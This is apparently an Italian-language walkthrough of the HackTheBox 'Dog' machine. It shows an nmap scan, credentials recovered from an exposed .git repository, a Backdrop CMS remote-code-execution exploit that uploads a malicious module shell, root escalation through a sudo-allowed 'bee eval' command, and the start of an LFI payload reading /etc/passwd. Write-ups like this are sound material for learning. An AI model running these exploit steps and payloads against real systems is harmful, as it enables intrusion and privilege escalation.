 # INtroduzione
ip: 10.10.11.58

### ispirazioni
- https://thecybersecguru.com/ctf-walkthroughs/mastering-dog-beginners-guide-from-hackthebox/
- https://blog.hayneschen.top/CTF/HTB/Dog.html#%E7%AB%8B%E8%B6%B3%E7%82%B9

# Scan and Ennumeration
## NMAP SCAN
> nmap -sV -sC -O 10.10.11.58

> Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-19 12:52 CET  
> Nmap scan report for 10.10.11.58  
> Host is up (0.47s latency).  
> Not shown: 998 closed tcp ports (reset)  
> PORT   STATE SERVICE VERSION  
> 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)  
> | ssh-hostkey:   
> |   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)  
> |   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)  
> |_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)  
> 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
> |_http-title: Home | Dog  
> | http-git:   
> |   10.10.11.58:80/.git/  
> |     Git repository found!  
> |     Repository description: Unnamed repository; edit this file 'description' to name the...  
> |_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...  
> | http-robots.txt: 22 disallowed entries (15 shown)  
> | /core/ /profiles/ /README.md /web.config /admin   
> | /comment/reply /filter/tips /node/add /search /user/register   
> |_/user/password /user/login /user/logout /?q=admin /?q=comment/reply  
> |_http-server-header: Apache/2.4.41 (Ubuntu)  
> |_http-generator: Backdrop CMS 1 (https://backdropcms.org)  
> Device type: general purpose  
> Running: Linux 4.X|5.X  
> OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5  
> OS details: Linux 4.15 - 5.19  
> Network Distance: 2 hops  
> Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
>   
> OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
> Nmap done: 1 IP address (1 host up) scanned in 27.93 seconds

da cui risultano quindi aperte le porte: 22 e 80

mi connetto quindi al sito per fare un po' di enumeration


## Site Enumeration
Del sito risultano accessibili:
- /robots.txt
- /.git/: 
    - da qui possiamo capire che la customizzazione degli alias degli url non è completata (troviamo nei messaggi un todo). 
    - Inoltre potrebbe contenere il codice dell'intera web app


## Vulnerabilità e vettori:
1. backdrop CMS in una vecchia versione
2. .git esposto

<br>
<br>


# Exploitation (strada 1)

1. scaricare la repository git con git-dumper per cercare di ottenere il codice sorgente del sito

2. ispezionare i file chiave del sito web scaricati con git

3. nel file settings si trova la password del Root, mentre nel file update_settings.json si trova l'email dell'admin

    tiffany@dog.htb
    BackDropJ2024DS2024

4. accedo a ?q=admin/dashboard con le credenziali trovate

#### INUTILE
5. modifico i permessi di un account per un accesso più facile

    axel
    axel@dog.htb
    carromano
#### fine inutile

6. su backdrop esiste un modo per fare RCE su backdrop -> https://www.exploit-db.com/exploits/52021

7. creo un trojan utilizzando il file scaricato dall'exploit e lo installo dal sito con manual installation.

    > $python 52021.py http://10.10.11.58
    > Backdrop CMS 1.27.1 - Remote Command Execution Exploit
    > Evil module generating...
    > Evil module generated! shell.zip
    > Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
    > Your shell address: http://10.10.11.58/modules/shell/shell.php

8. accedo alla shell indicata qui sopra e funziona. con cat passwd vedo che esiste l'utente johncusack. accedo con la password che ho trovato prima

9. provo ad accedere in ssh

    ssh johncusack@10.10.11.58
    BackDropJ2024DS2024
    
    funziona.

10. trovo la user flag

11. faccio **sudo -l**

12. vedo che posso usare bee come admin:

13. lo exploito:

    > sudo /usr/local/bin/bee --root=/var/www/html eval 'system("/bin/bash")'
    
14. sono root, quindi ora posso prendere stampare la flag dalla cartella home di root.


# Exploit (strada 2)

1. scaricare la repository git con git-dumper per cercare di ottenere il codice sorgente del sito

2. ispezionare i file chiave del sito web scaricati con git

3. si può fare LFI tramite una funzione non finita dogsview:
- http://10.10.11.58/?view=dog/../../../../etc/passwd&ext=
    